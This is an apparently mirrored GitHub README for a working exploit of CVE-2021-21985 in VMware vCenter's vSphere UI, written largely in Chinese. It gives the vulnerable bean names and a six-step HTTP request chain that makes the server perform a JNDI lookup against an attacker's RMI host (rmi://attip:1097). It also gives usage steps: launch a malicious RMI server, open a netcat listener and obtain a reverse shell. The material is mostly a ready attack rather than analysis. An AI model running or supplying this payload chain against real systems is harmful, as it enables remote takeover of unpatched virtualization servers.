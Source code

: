 # cve-2021-21985_exp

cve-2021-21985 exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/xnianq](https://github.com/xnianq) |
| Url      | [https://github.com/xnianq/cve-2021-21985_exp](https://github.com/xnianq/cve-2021-21985_exp)                                               |
| Stars    | 106                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# cve-2021-21985 exploit

## 0x01 漏洞点

![image-20210603144442312](README.assets/image-20210603144442312.png)

分析可见：

https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985?referrer=home#rapid7-analysis

## 0x02 exploit

对beans对象进行重新构造，实现rce。

bean列表： 

```
localizedMessageBundle
vsanWorkerThreadFactory
vsanThreadPoolImpl
vsanServiceBundleActivator
vsanServiceFactory
vsanProviderUtils_setVmodlHelper
vsanProviderUtils_setVsanServiceFactory
vsanQueryUtil_setDataService
vsanComponentsProviderImpl
capabilityPropertyProviderImpl
pbmDataProviderImpl
vsanCapabilityCacheManager
vsanCapabilityUtils_setVsanCapabilityCacheManager
vsanUtils_setMessageBundle
vsanFormatUtils_setUserSessionService
```

随风大佬使用的vsanProviderUtils_setVmodlHelper在我这边环境没测试成功，就选用了另外的bean进行测试，由于Vsphere UI使用的tomcat中间件，可以通过jndi rmi bypass(https://github.com/welk1n/JNDI-Injection-Bypass/blob/master/src/main/java/payloads/EvilRMIServer.java）远程执行命令。

```
Step1
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetObject
{"methodInput":[null]}


Step2
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setStaticMethod
{"methodInput":["javax.naming.InitialContext.doLookup"]}

Step3
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setTargetMethod
{"methodInput":["doLookup"]}

Step4 
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/setArguments
{"methodInput":[["rmi://attip:1097/ExecByEL"]]}

Step5
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/prepare
{"methodInput":[]}

Step6
https://host/ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService/invoke
{"methodInput":[]}
```

## 0x03 使用方法

1. 启动rmi服务
  java -cp  JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer attip
  ![image-20210603201234855](README.assets/image-20210603201234855.png)
2. 启动reverse shell 侦听
```angular2
nc -lvvp 5555
```
3. 执行以上payload，得到reverse shell
![image-20210603201337539](README.assets/image-20210603201337539.png)

## 0x04 reference
* https://www.iswin.org/2021/06/02/Vcenter-Server-CVE-2021-21985-RCE-PAYLOAD/
* https://attackerkb.com/topics/X85GKjaVER/cve-2021-21985#rapid7-analysis
* https://github.com/welk1n/JNDI-Injection-Bypass



## Get the content

```
git clone https://github.com/xnianq/cve-2021-21985_exp
cd cve-2021-21985_exp
```

{% embed url="https://github.com/xnianq/cve-2021-21985_exp" %}

<figure><img src="https://avatars.githubusercontent.com/u/17513849?v=4" alt=""><figcaption><p>xnianq</p></figcaption></figure>
